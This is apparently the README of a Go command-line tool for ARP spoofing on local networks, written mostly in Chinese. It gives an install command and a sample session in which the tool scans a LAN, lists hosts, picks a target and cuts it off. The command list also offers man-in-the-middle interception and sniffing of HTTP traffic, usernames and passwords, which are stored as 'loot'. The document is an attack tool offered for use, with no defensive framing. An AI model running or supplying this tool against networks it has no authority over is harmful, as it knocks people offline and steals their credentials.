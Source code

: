 # [ARP Spoofing]
<img src="https://img-blog.csdnimg.cn/20210726194704703.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzQxNTY0NA==,size_16,color_FFFFFF,t_70" width="400px">

## [Download]

```shell
go install github.com/ShangRui-hash/arp-spoofing-go@latest
```

## [Usage]
因为需要使用原始套接字，所以需要用户以root权限运行程序

```shell
/bin/bash > sudo arp-spoofing-go 
```

输入help ，查看可以使用的命令

```
阿弥陀佛 > help
- Commands:
  - clear              clear the screen
  - cut                通过ARP欺骗切断局域网内某台主机的网络
  - exit               exit the program
  - help               display help
  - hosts              主机管理功能
  - loot               查看嗅探到的敏感信息
  - middle-attack      中间人攻击
  - scan               扫描内网中存活的主机
  - set                配置参数
  - show               展示信息
  - sniff              嗅探用户名和密码
  - webspy             嗅探http报文
```

### show options
检查各项配置是否正确,如果配置不正确，可以使用 set key value 设置选项key的值为value
```
阿弥陀佛 > show options
+---------+-------------------+----------+----------------------+
|  NAME   |       VALUE       | REQUIRED |     DESCRIPTION      |
+---------+-------------------+----------+----------------------+
| ifname  |        en0        |   true   |     监听哪个网卡     |
+---------+-------------------+          +----------------------+
|  range  | 192.168.31.117/24 |          |       扫描范围       |
+---------+-------------------+          +----------------------+
| method  |        arp        |          | 扫描方式:all,arp,udp |
+---------+-------------------+          +----------------------+
| gateway |   192.168.31.1    |          |     局域网的网关     |
+---------+-------------------+----------+----------------------+
ARP Scan Options
```
### scan 扫描局域网中的主机
```
阿弥陀佛 > scan
[===================>] 99% 
```
### hosts 查看所有扫描到的主机
```
阿弥陀佛 > hosts
+----+----------------+-------------------+--------------------------------+
| ID |       IP       |        MAC        |            MACINFO             |
+----+----------------+-------------------+--------------------------------+
| 0  |  192.168.31.1  | ec:41:18:d9:a2:b9 |   XIAOMI Electronics,CO.,LTD   |
+----+----------------+-------------------+--------------------------------+
| 1  | 192.168.31.71  | 50:98:39:03:24:5e |  Xiaomi Communications Co Ltd  |
+----+----------------+-------------------+--------------------------------+
| 2  | 192.168.31.149 | ba:52:72:92:ea:f4 |                                |
+----+----------------+-------------------+--------------------------------+
| 3  | 192.168.31.168 | 8a:c4:6b:ac:25:49 |                                |
+----+----------------+-------------------+--------------------------------+
| 4  | 192.168.31.196 | 94:87:e0:37:af:37 |  Xiaomi Communications Co Ltd  |
+----+----------------+-------------------+--------------------------------+
| 5  | 192.168.31.200 | 50:5b:c2:c9:e8:d1 | Liteon Technology Corporation  |
+----+----------------+-------------------+--------------------------------+
| 6  | 192.168.31.222 | 3c:a5:81:94:43:25 | vivo Mobile Communication Co., |
|    |                |                   |              Ltd.              |
+----+----------------+-------------------+--------------------------------+
| 7  | 192.168.31.224 | 50:5b:c2:e9:e5:03 | Liteon Technology Corporation  |
+----+----------------+-------------------+--------------------------------+
```
### cut 向某台主机发送arp欺骗报文,启动后 发送数据包的协程将在后台默默运行
```
which host do you want to attack?
 ❯ 192.168.31.200
   192.168.31.222
   192.168.31.224
   192.168.31.1
   192.168.31.71
   192.168.31.149
   192.168.31.168
   192.168.31.196
```
```
Deceit gateway or target?
 ❯ gateway
   target
```
```
Send Reply packet or Request packet?
 ❯ request
   reply
```
```
+----------------+--------------+----------+--------+
|      目标      |     网关     | 欺骗方式 | 包类型 |
+----------------+--------------+----------+--------+
| 192.168.31.222 | 192.168.31.1 |  target  | reply  |
+----------------+--------------+----------+--------+
[*] 欺骗协程启动成功
[*] show cutted 查看当前正在被攻击的设备
```
### show cutted 
```
阿弥陀佛 > show cutted
+----------------+
|  CUTTED HOSTS  |
+----------------+
| 192.168.31.222 |
+----------------+
```
### stop cut 停止发送
```
Please select host.
 ❯ 192.168.31.222
Stop cutting: 192.168.31.222
```

其他功能：
- webspy 可以嗅探所有流经本机网卡的http包,启动webspy前，建议向使用middleattack将目标主机的流量导过来
<img src="https://img-blog.csdnimg.cn/2021072619170764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzQxNTY0NA==,size_16,color_FFFFFF,t_70"/>
- sniff 嗅探有敏感信息的http数据包，并存入redis，可以通过loot命令查看收集到的数据包

# [TODO] 

3. 优化webspy的功能
4. 检查中间人攻击模块 篡改数据包的mac地址是否确实篡改了
如果确实篡改了，为什么 wireshark 抓不到
5. 解决本主机在启动中间人攻击模块后上网慢的问题
6. 设置一个过滤器，只监听欺骗双方的数据包,查下过滤器的语法